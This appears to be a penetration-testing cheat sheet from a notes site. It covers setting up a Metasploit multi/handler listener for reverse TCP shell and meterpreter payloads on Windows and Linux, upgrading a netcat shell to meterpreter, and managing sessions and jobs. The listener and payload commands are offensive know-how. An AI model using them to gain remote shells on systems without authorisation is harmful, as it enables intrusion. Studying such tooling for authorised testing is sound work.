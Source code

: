 # Reverse Shell

## Multi Handler

* Start the PostgreSQL service `service postgresql start`.
* Start the metasploit console `msfconsole`.
* `use exploit/multi/handler`.

## Setting Up a listener in multi handler

* `set lhost 192.168.1.10`.
* `set lport 4444`.
* Then we need to specify the payload,
  * netcat shell \([https://netsec.ws/?p=292](https://netsec.ws/?p=292)\)
    * windows listener `set payload windows/shell/reverse_tcp`
    * linux listener `set payload linux/x86/shell/reverse_tcp`
  * meterpreter shell
    * windows listener `payload windows/meterpreter/reverse_tcp`
    * linux listener payload linux

## Upgrade Shell to meterpreter shell

* You need to have a metasploit listener for netcat.
* You need to create a new session. Either Ctrl+z or `background`.
* Then we need to change the exploit first to "shell\_to\_meterpreter".
  * `use post/multi/manage/shell_to_meterpreter`

## Session Management

### List active sessions and process

* Linux \(search for port 4444\)
  * lsof -t -i:4444
  * netstat -ano \| grep 4444
  * ps
* Windows
  * netstat -ano

### Managing "jobs" in metsploit framework

* List all jobs
  * jobs
* Kill all jobs
  * jobs -K
* Jobs help
  * help jobs
* 
### Killing a session

* Linux \(killing service with pid\)
  * kill -9 1234



![TCP connection states](../../../.gitbook/assets/image%20%2830%29.png)

